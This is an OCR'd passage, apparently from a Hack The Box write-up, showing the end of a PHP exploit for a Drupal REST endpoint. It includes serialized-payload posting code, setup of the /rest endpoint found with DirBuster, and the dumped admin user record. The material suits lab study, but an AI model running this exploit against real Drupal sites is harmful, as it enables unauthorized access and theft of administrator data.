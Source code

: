     cache_edit($tr);
    }
    function cache_edit($tr)
    {
    global $browser;
    $data = serialize([$tr]);
    $json = $browser->post(TYPE_PHP, $data);
    }
    Utils
    function x($message)
    {
    print(“$message\n”);
    }
    function e($message)
    {
    x($message);
    exit(1);
    }
    function store($name, $data)
    {
    $filename = “$name.json”;
    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
    x(“Stored $name information in $filename”);
    }

The exploit needs a rest api path in the web server, one of the output from DirBuster was
`Dir found: /rest/` `--` `200`
So we can set the endpoint_path variable to `$endpoint_path =` `'``/rest``'``;`
once we run the the exploit we get two files `user.json` and `session.json`

**user.json**

    {
    “uid”: “1”,
    “name”: “admin”,
    “mail”: “drupal@hackthebox.gr”,
    “theme”: “”,
    “created”: “1489920428”,
    “access”: “1492102672”,
    “login”: 1505051198,
    “status”: “1”,
    “timezone”: “Europe\/Athens”,
    “language”: “”,
    “picture”: null,
    “init”: “drupal@hackthebox.gr”,
    “data”: false,
    “roles”: {
    “2”: “authenticated user”,
    “3”: “administrator”
    },
    “rdf_mapping”: {
    “rdftype”: [
    “sioc:UserAccount”
    ],
    “name”: {
    “predicates”: [
    “foaf:name”
    ]
    },
    “homepage”: {
    “predicates”: [
    “foaf:page”
    ],
    “type”: “rel”
    }